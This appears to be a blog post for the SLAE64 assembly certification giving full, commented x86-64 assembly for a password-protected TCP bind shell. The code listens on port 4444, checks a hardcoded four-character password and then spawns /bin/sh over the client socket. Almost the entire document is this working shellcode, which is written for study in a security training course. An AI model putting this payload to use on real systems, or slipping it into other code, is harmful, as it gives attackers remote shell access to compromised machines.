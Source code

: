```yaml
---
layout: post
title: SLAE64 Assignment 1 - password protected tcp bindshell
excerpt: asm code and comments for my pass protected tcp bindshell
---
```


    ; name       : bindshell
    ; author     : Sandro "guly" Zaccarini SLAE64-1497
    ; purpose    : this program will open a listening socket on 0.0.0.0, waits for connection
    ;              and spawn a shell if the first 4chars match an hardcoded password
    ;              this code has been written for SLAE64 assignment 1
    ; references : https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/ ,
    ;              /usr/include/linux/net.h
    ; license    : CC-BY-NC-SA
    ;
    ; high level flow:
    ; socket -> bind -> listen -> accept -> password check -> dup fd -> spawn /bin//sh
    
    ; known issues:
    ; 1) doesn't handle multiple clients
    ; 2) doesn't handle client-close and so_reuseaddr
    ; 3) doesn't handle "bruteforce", but i see this as a plus: i can try again if i fail
    ;    the password. i'm not worried about bruteforce here
    ; 4) the password cannot be longer than 8bytes, for >4bytes you should change e* to r*
    ; 5) password can only be a valid string
    ; 6) \r\n are not handled, but you can write guly 42 times and first or later you'll have it :)
    
      global _start
    
      section .text
    ; define placed before _start to have it "rel"able without jmp
    PASSWORD: db "guly" ; 0x796c7567
    PORT:     db 0x11,0x5c  ; 4444
    
    ; neat exit on top, not really needed
      exit:
    xor rax,rax
    mov rdi,rax
    mov al,0x3C
    syscall
    
      _start:
    ; create a TCP socket
    ; sock = socket(AF_INET, SOCK_STREAM, 0)
    ; rdi => AF_INET = 2
    ; rsi => SOCK_STREAM = 1
    ; rax => syscall number 0x29
    
    ; starting with a known null at rax,rdx,rdi and rsi
    ; even if not that readable, using push/pop i can save some bytes against mov
    xor rax,rax
    push rax
    pop rdx
    push rax
    pop rdi
    push rax
    pop rsi
    
    ; and because everything's 0x, i can add or inc working with 8/32bit to save some bytes
    add al, 0x29
    add edi, 0x2
    inc esi
    syscall
    
    ; syscall rets socketfd to rax. copy it to edi, we need it for the whole process
    ; again, working with 32bit to save some bytes
    mov edi, eax
    
    
    ; fire a bind() to created socket
    ; bind(sock, (struct sockaddr *)&server, sockaddr_len)
    ;
    ; where struct is built like this:
    ; server.sin_family = AF_INET => 0x2
    ; server.sin_port = htons(PORT) => defined in PORT
    ; server.sin_addr.s_addr = INADDR_ANY => 0.0.0.0 => 0x0
    ; bzero(&server.sin_zero, 8)
    ;
    ; rdi => socketfd, saved at edi actually
    ; rsi => pointer to struct
    ; rdx => addr len, fixed at 0x10
    ; rax => syscall number 0x31
    
    ; create the struct, starting with a known null at rsp
    ; rsp => 0x00000000
    xor rax, rax
    push rax
    ; rsp => 0x0000000000000000
    
    ; mov AF_INET
    mov byte [rsp], 0x2
    ; rsp => 0x00000000000002
    
    ; and mov port
    mov ax, [rel PORT]
    mov word [rsp+0x2], ax
    ; rsp => 0x0000005c110002
    ; and place pointer to rsi
    mov rsi, rsp
    
    ; syscall id to rax using r12 which is zero
    mov r12b, 0x31
    mov eax,r12d
    
    ; addrlen, 16 or 0x10
    mov dl, 0x10
    
    ; and do the bind()
    syscall
    
    ; a bind with no listen is useless, let's listen
    ; listen(sock, MAX_CLIENTS)
    ; 
    ; rdi => socketfd, already in rdi
    ; rsi => 0x1, accept just 1 client
    ; rax => syscall number 0x32
    
    ; start with a null rax/rsi
    xor rax,rax
    push rax
    pop rsi
    add ax, 0x32
    inc esi
    syscall
    
    ; and again, a listen with no accept is useless
    ; 
    ; new = accept(sock, (struct sockaddr *)&client, &sockaddr_len)
    ; rdi => socketfd, already in rdi
    ; rsi => pointer to sockaddr struct
    ; rdx => pointer to addr len, fixed to 0x10 (16)
    ; rax => syscall number 0x2b
    
    ; work with ops as small as possible
    xor rax,rax
    mov al, 0x2b
    ; make some room, hoping that upper stack is empty...
    ; to have an empty 16bytes i've could also:
    ; dec esi ; to have esi 0x0
    ; push rsi
    
    sub rsp, 0x10
    mov rsi, rsp
    mov byte [rsp-1], 0x10
    sub rsp, 0x1
    mov rdx, rsp
    
    syscall
    
    ; save the client socket file descriptor, r9 is unused
    mov r9, rax
    
    ; read password from connected client using read() syscall 0x0
    ; and store in rsp
    ; 
    ; rdi => client fd
    readpass:
    ; syscall is 0x0, so a xor will be perfect
    ; i also need to move a small value to rdx, i zero it too
    xor rdx, rdx
    mov rax,rdx
    
    ; to have some room for the read, i'm pushing a full null here
    push rdx
    
    ; because i known my pass is just 0x4 chars, i force it here.
    ; see description for possible issue
    mov dl, 0x4
    
    ; and put the pointer to the stack to rsi
    mov rsi, rsp
    mov rdi,r9
    
    ; do the read
    syscall
    
    ; move my pass to eax, because i know it will fit. for longer pass, use rax.
    ; for even longer pass, scasd will not be the right op
    mov eax, [rel PASSWORD]
    ; because client's password has been stored in rsp, move a pointer to rdi
    mov rdi,rsp
    ; scasd will check 4byte from eax to edi pointed memory location
    scasd
    
    ; if doesn't match, back to readpass. using this "loop" i can fail password and have
    ; the shell listening again.
    ; as i said in the description, i don't care about bruteforce and that's why no counter
    jne readpass
    
    ; if the pass matches, dup2 to have some fd for the shell
    ; dup2 (new, old)
    ; STDIN
    xor eax,eax
    xor rsi,rsi
    mov rdi, r9
    mov al, 0x21
    syscall
    
    ; STDOUT
    mov al, 0x21
    inc rsi
    syscall
    
    ; STDERR
    mov al, 0x21
    inc rsi
    syscall
    
    ; and finally, execve
    ;
    ; rdi => pointer to filename, /bin//sh null terminated
    ; rsi => pointer to argv
    ; rdx => pointer to envp, null
    ; rax => syscall id 0x3b
    
    ; push a null terminator
    xor rax, rax
    push rax
    ; pointer to 0x0 for envp
    mov rdx,rsp
    
    ; and push /bin//sh in reverse
    mov rbx, 0x68732f2f6e69622f
    push rbx
    
    ; finally store pointer to rdi and rsi
    mov rdi, rsp
    push rax
    push rdi
    mov rsi, rsp
    
    ; do the call
    add rax, 0x3b
    syscall
    
    call exit
    
*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*
